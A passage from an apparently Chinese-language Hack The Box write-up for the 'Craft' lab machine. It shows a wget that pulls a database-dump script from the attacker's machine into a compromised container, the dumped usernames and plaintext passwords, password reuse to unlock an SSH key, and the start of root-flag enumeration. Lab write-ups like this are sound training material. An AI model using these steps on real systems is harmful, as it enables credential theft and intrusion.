- 本地用`python -m SimpleHTTPServer`开一个http server, 容器里面执行`wget http://10.10.16.19:8000/dbdump.py`

- 容器里面执行`python dbdump.py`, 拿到所有用户名密码
{% highlight text %}
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
{% endhighlight %}

- 使用这三个账户去尝试登录ssh, 均失败

- gilfoyle账户可以成功登录gogs.craft.htb, 发现一个新的私有仓库`craft-infra`，这个repos里面有登录的ssh key文件 `id_rsa`

- gilfoyle同志一套密码打天下，ssh key文件 `id_rsa`密码还是`ZEU3N8WNM2rh4T`

- `ssh gilfoyle@10.10.10.110 -i id_rsa`成功拿到user flag
 ![](/img/htb-craft-userflag.jpg)

## root flag
- 关键还是需要去枚举gogs上的私有仓库`craft-infra`

- 有一个`vault`服务

- 跑一下[LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)的脚本，发现也有`vault server`的进程在跑
